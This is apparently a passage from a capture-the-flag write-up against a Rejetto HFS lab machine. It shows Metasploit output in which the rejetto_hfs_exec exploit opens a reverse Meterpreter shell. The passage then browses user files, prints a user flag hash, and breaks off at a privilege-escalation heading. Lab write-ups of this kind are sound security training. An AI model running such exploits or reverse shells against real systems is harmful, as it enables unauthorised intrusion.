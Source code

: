 
Now we have gain access to the Windows Machine
```
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
[*] Started reverse TCP handler on 10.23.62.59:4444 
[*] Using URL: http://10.23.62.59:9090/9hubxTGDGR
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /9hubxTGDGR
[*] Sending stage (177734 bytes) to 10.10.118.118
[!] Tried to delete %TEMP%\IsIahcciqm.vbs, unknown result
[*] Meterpreter session 1 opened (10.23.62.59:4444 -> 10.10.118.118:49223) at 2025-05-11 11:19:34 -0400
[*] Server stopped.

meterpreter >
```

Lets find some interesting files here
```
meterpreter > ls
Listing: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
====================================================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2025-05-11 11:19:33 -0400  %TEMP%
100666/rw-rw-rw-  174     fil   2019-09-27 07:07:07 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 15:58:52 -0500  hfs.exe

```

```
meterpreter > cd c:/users/bill/desktop
meterpreter > ls
Listing: c:\users\bill\desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

```

## User Flag
```
meterpreter > cat user.txt
��b04763b6fcf51fcd7c13abc7db4fd365
```

## Privilege Escalation
